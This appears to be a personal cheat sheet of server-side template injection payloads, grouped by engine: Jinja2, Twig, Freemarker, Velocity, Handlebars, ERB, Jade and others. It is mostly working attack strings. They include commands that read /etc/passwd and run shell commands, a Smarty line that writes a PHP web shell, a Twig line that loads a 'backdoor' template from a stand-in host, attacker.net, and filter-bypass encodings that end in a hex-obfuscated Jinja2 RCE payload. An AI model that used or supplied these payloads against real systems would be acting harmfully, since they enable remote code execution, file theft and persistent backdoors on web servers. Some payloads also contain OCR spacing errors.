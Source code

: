 # Cheat Sheet testing:
![image](https://github.com/user-attachments/assets/d7f5bf06-7269-46a3-8d2b-419688fdb68d)
```
Jinja2 (Python Flask/Django): {{ 7*7 }}  
Freemarker (Java):             ${7*7}  
Velocity (Java):          #set($a = 7*7)${a} 
Thymeleaf (Java):              ${7*7}  
Twig (PHP Symfony):           {{ 7*7 }}  
Smarty (PHP):                  {$7*7}  
Mako (Python):                 ${7*7}
ERB (Ruby):                  <%= 7*7 %>
```
![Pasted image 20250408092652.png](/mnt/c/Users/kolbe/OneDrive/Obsidian Vault/Cybersecurity/ScreenshotsPasted%20image%2020250408092652.png)
- When the template engine is confirmed, you can replace the `7*7` with commands from the corresponding template engine

## SSTI Polygot
```
${{<%[%'"}}%\.
```

## FreeMarker (Java):
```
${7*7}=49
```
```
<#assign command="freemarker template utility.Execute"?new()> ${ command("cat /etc/passwd") }
```

## Java:
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("") .getPath()}
${class.getResource(" .. / .. / .. / .. / .. /index.htm") .getContent()}
${T(java. lang. System) . geteny ( ) }
${product.getClass() .getProtectionDomain().getCodeSource().getLocation().toURI().re
solve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
## Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump (app)}}
{{app. request. server. all| join(',') }}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
## Smarty (PHP) :
```
{$smarty.version}
{php}echo `id ; {/php}
{Smarty_Internal_Write_File :: writeFile($SCRIPT_NAME," <? php passthru ($_GET['cmd' ]);
?>",self: : clearConfig())}
```
## Handlebars (NodeJS) :
```
wrtz{{#with "s" as | string| }}
{ {#with "e"}}
{{#with split as
{{this.pop} }
{{this.push (lookup string. sub "constructor" ) } }
{{this.pop}}
{{#with string.split as | codelist| }}
{{this.pop}}
{{this.push "return require('child_process' ) . exec ( 'whoami' ); "}}
{ {this.pop} }
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{ {/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
## Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set ($chr=$class.inspect("java.lang.Character") .type)
#set ($ex=$class.inspect("java.lang.Runtime") .type.getRuntime() .exec ("whoami"))
$ex.waitFor ()
#set ($out=$ex.getInputStream())
#foreach($i in [1 .. $out.available() ])
$str.valueOf($chr.toChars ($out.read()))
#end
```

## ERB (Ruby) :
```
<%= system("whoami" ) %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file' ) .read %>
```

## Django Tricks (Python):
```
{% debug %}
{{settings.SECRET_KEY} }
```

## Tornado (Python) :
```
{% import foobar %} = Error
{% import os %} { {os. system ( 'whoami' ) } }
```

## Mojolicious (Perl) :
```
<%= perl code %>
<% perl code %>
```
## Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base. subclasses () }} # get all classes
{{''.class.mro() [1].subclasses()}}
{%for c in [1,2,3] %}{ {c.c.c}}{% endfor %}
```

## Flask/Jinja2:
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```

## Jade:
```
#{root.process.mainModule.require('child_process') . spawnSync('cat', ['/etc/passwd']) .stdout}
```

## Razor (.Net) :
```
@(1+2)
@{// C# code}
```

### Bypassing filters
#### Blocking: `.`
- (`.`) → Uses `|attr()` to dynamically access attributes:  
```
request.application.__globals__  TURNS INTO: request|attr(‘application’)|attr(“__globals__”)
```

#### Blocking: `__`
- Hex Encoding (`\x5f`) for Underscores (`_`)

#### Blocking: `[]`
- Using `__getitem__()` Instead of `[]`

#### RCE Without `eval()` or `exec()`  
```
__import__(‘os’).popen(‘id’).read()  
```
- Avoids blocked `os.system()` and `subprocess.Popen()`.

#### Example payloads:
Payload to commit RCC (in jinja):
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
- Executes the `id` command
